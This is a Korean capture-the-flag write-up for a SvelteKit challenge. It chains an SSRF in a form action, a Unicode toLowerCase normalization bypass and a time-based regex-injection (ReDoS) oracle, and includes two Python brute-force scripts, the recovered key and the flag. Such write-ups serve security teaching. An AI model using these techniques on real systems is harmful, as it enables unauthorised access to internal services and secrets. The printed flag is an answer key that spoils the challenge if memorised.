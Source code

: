 # svelte_api_v2

# Usage

# Concept

- ReDoS, SSRF, unicode normalization bug

# Writeup

`src/routes/api/get-flag/+server.js`에서 특정 조건을 통과하면 플래그를 획득할 수 있다.

```js
if (a === flagPassword && user_key2 === key2) {
  return json({
    text: flag,
  });
}
```

첫번째로 `src/routes/api/get-flag/+server.js`에서는 localhost 이외의 접속을 차단하고 있다.

```js
if (!["localhost", "127.0.0.1", "", "::1"].includes(ip)) {
  return json({
    text: "only localhost allowed",
    ip: ip,
  });
}
```

이것을 우회하기 위해서 `src/routes/+page.server.js`에서의 ssrf 취약점을 이용하여 접근할 수 있다.

```js
export const actions = {
  default: async (event) => {
    //console.log(event);

    const data = await event.request.formData();
    const url = data.get("url");

    const req = fetch(url);
    const res = await req;
    const text = await res.text();

    event.cookies.set("result", text);

    return { success: true };
  },
};
```

그 다음으로는 flagPassword 확인하는 부분을 unicode normalization을 통해 우회할 수 있다.
toLowerCase 함수를 사용하기 때문에 특정 유니코드를 입력하면 ascii로 치환되는 것을 이용한다.

```js
"hac\u212A".toLowerCase() == "hack";
```

마지막으로 key2를 구하기 위해서는 Time based regex injection을 이용할 수 있다.
search 메서드를 사용하고 있기 때문에 ReDoS가 가능하다.

Time based regex injection의 경우, 정확한 값을 구하기 위해서 forward search, backword search 두 가지를 이용해야 한다.

```js
// forward search
import requests, sys
from time import time

prefix = "OAZQ"
depth = 2

if len(sys.argv) >= 3:
    depth = int(sys.argv[2])
    prefix = sys.argv[1]
elif len(sys.argv) >= 2:
    depth = int(sys.argv[1])

suffix = "(" * depth + "." + "*)" * depth + "!"

r = []
for c in "_ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789-":
    begin = time()
    req = requests.get(
        "http://localhost:5173/what-is-my-user-agent",
        params={"key2": prefix + c + suffix},
    )
    print(req.text)
    r.append([c, time() - begin])

r = sorted(r, key=lambda x: x[1])

for d in r[::-1][:3]:
    print("[*] {} : {}".format(d[0], d[1]))

// backword search
import requests, sys
from time import time

prefix = ''
depth = 2

if len(sys.argv) >= 3:
    depth = int(sys.argv[2])
    prefix = sys.argv[1]
elif len(sys.argv) >= 2:
    depth = int(sys.argv[1])

prefix2 = '(' * depth
suffix = ')*' * depth

r = []
for c in '_ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789-':
    begin = time()
    requests.get('http://localhost:5173/what-is-my-user-agent', params = {
        'key2': prefix + prefix2 + '[^{}]'.format(c) + suffix + '!'
    })
    r.append([c, time() - begin])

r = sorted(r, key = lambda x: x[1])

for d in r[:5]:
    print('[*] {} : {}'.format(d[0], d[1]))
```

이 방법을 이용하여 구한 키는 다음과 같다.
`HELLOSPACEWARWEB`

앞에서 구한 모든 것을 종합하여 `api/get-flag`에 요청을 보내면 플래그를 획득할 수 있다.

flag: `hspace{1367208a460b08c8b2906c91834b8c8b}`
